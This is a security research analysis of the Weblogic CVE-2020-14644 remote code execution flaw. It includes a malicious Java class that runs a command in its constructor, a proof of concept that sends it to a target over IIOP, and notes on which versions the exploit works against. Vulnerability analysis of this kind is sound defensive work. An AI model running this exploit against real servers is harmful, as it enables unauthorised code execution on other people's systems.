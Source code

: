# Analysis of Weblogic Remote Command Execution Vulnerability (CVE-2020-14644)

> Author: WhiteCap Alliance Security Research Institute @Sp4rr0vv

> Verified by: WhiteCap Alliance Security Research Institute @r4v3zn

# 0x00 Overview
On July 15, 2020, Oracle released a large number of security patches, among which the CVE-2020-14644 vulnerability was rated 9.8 in severity, affecting versions 12.2.1.3.0, 12.2.1.4.0, and 14.1.1.0.0. This article is based on publicly available proof-of-concept (POC) code from the internet for reproduction and analysis. Eventually, we achieved unrestricted defineClass + instantiation, which resulted in remote code execution (RCE).

# 0x01 Prerequisite Knowledge

The `ClassLoader` class in the `JDK` has a method called `defineClass`, which can load a class into the `JVM` and return the corresponding `Class` object based on the fully qualified name of the class and the byte array of the class (it is worth mentioning that this way of loading classes does not execute class initialization).

![image-20200805135249325](https://nosec.org/avatar/uploads/attach/image/eec75b4ef9e0e8b4980ddfe22512dba6/image-20200805135249325.png)

So as long as the parameters `name` (class name) and `b` (binary data of the class file) are controllable, theoretically we can load any class. One thing to note is that the class name `name` must be consistent with the class name in the byte array `b`, otherwise a `NoClassDefFoundError` will occur.

![image-20200805143407083](https://nosec.org/avatar/uploads/attach/image/030032e9d2435a7e9237d92426f5632c/image-20200805143407083.png)

![image-20200805143146631](https://nosec.org/avatar/uploads/attach/image/c69586bf5e2dfe214fbebe21b4bcec6b/image-20200805143146631.png)

# 0x02 Reproduction

Environment:

- Weblogic 12.2.1.4.0
- JDK 1.8.0_112
- Windows 10

First, prepare a malicious class with a package name, and write malicious code in the constructor.

```
package com;

import java.io.IOException;

public class EvilObj {

    public EvilObj() {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException var1) {
            var1.printStackTrace();
        }
    }
}
```

POC

```
ClassIdentity classIdentity = new ClassIdentity( EvilObj.class);
ClassPool cp = ClassPool.getDefault();
CtClass ctClass = cp.get(EvilObj.class.getName());
ctClass.replaceClassName(EvilObj.class.getName(),  EvilObj.class.getName() + "$" + classIdentity.getVersion());
RemoteConstructor constructor = new RemoteConstructor(
        new ClassDefinition(classIdentity, ctClass.toBytecode()),
        new ob ject[] {}
);
// 发送 IIOP 协议数据包
Context context = getContext("iiop://ip:port");
context.rebind("hello",constructor);
```

Reproduction result:

![image-20200806093842214](https://nosec.org/avatar/uploads/attach/image/97ef8d5118d7f823a1d2fa93b5db540f/image-20200806093842214.png)

The following is a simplified version of the call stack:

```
exec:347, Runtime (java.lang)
<init>:14, SimpleMapEntry$7E80A4E3098E7FB7B109472C77D1D573 (com.tangosol.util)
newInvokeSpecial__L:-1, 1565249093 (java.lang.invoke.LambdaForm$DMH)
reinvoke:-1, 1641862114 (java.lang.invoke.LambdaForm$BMH)
invoker:-1, 222055923 (java.lang.invoke.LambdaForm$MH)
invokeExact_MT:-1, 1593074896 (java.lang.invoke.LambdaForm$MH)
invokeWithArguments:627, MethodHandle (java.lang.invoke)
createInstance:149, ClassDefinition (com.tangosol.internal.util.invoke)
realize:142, RemotableSupport (com.tangosol.internal.util.invoke)
newInstance:122, RemoteConstructor (com.tangosol.internal.util.invoke)
readResolve:233, RemoteConstructor (com.tangosol.internal.util.invoke)
```

# 0x03 Actual Exploitation

In summary, the overall idea is to construct a class with a package name, and write malicious code in the constructor. Then, use `javassist` to dynamically modify the class name, appending `$` and `version` values to the original class name. In practical exploitation, the following issues may arise.

## 3.1 Why use a package name?

Because there is the following chain call in the constructor of `ClassIdentity`, and without a package name, `getPackage()` will return `null`, and further calls will result in a `NullPointerException`.

![image-20200806094554771](https://nosec.org/avatar/uploads/attach/image/8838e71b0a6f06424378b5a05db8a3db/image-20200806094554771.png)

## 3.2 Version Issues

During the utilization process, issues may arise due to the version incompatibility of the JDK.

1. The issue can be resolved by specifying the compilation version using the `-source 1.6 -target 1.6` parameters while obtaining the malicious class.
2. Alternatively, the current running JDK version can be adjusted to the lowest version for utilization.

## 3.3 Serialization ID Issues

Due to the version changes in Weblogic, the `serialVersionUID` in the `coherence.jar` file may not match. Through analysis and testing, it has been determined that the `serialVersionUID` is different for `12.2.1.3.0` and `12.2.1.4.0`, `14.1.1.0.0`. Below are the detailed test results:

| coherence.jar | WebLogic version | Success |
| :------------ | :--------------- | :------ |
| 12.2.1.3.0    | 12.2.1.3.0       | Yes     |
| 12.2.1.3.0    | 12.2.1.4.0       | No      |
| 12.2.1.3.0    | 14.1.1.0.0       | No      |
| 12.2.1.4.0    | 12.2.1.3.0       | No      |
| 12.2.1.4.0    | 12.2.1.4.0       | Yes     |
| 12.2.1.4.0    | 14.1.1.0.0       | Yes     |
| 14.1.1.0.0    | 12.2.1.3.0       | No      |
| 14.1.1.0.0    | 12.2.1.4.0       | Yes     |
| 14.1.1.0.0    | 14.1.1.0.0       | Yes     |

This issue can be resolved through the dynamic loading process using `URLClassLoader`. Below is some core code (excerpted from `weblogic-framework`):

![image-20200806133258369](https://nosec.org/avatar/uploads/attach/image/e2e3a9f84f6bdc37928df0aaa39593a0/image-20200806133258369.png)

![image-20200806133919212](https://nosec.org/avatar/uploads/attach/image/06d75c55d590d48d6eccca8576f861dc/image-20200806133919212.png)

# 0x04 References

- [CVE-2020-14644 Analysis and Some Thoughts on Gadgets](https://paper.seebug.org/1281/)
- https://www.oracle.com/security-alerts/cpujul2020.html


<br/>

<br/>
[Goby Official URL](https://gobies.org/)

If you have a functional type of issue, you can raise an issue on GitHub or in the discussion group below:

1. GitHub issue: https://github.com/gobysec/Goby/issues
2. Telegram Group: http://t.me/gobies (Community advantage: Stay updated with the latest information about Goby features, events, and other announcements in real-time.) 
3. Telegram Channel: https://t.me/joinchat/ENkApMqOonRhZjFl 
4. Twitter：[https://twitter.com/GobySec](https://twitter.com/GobySec)
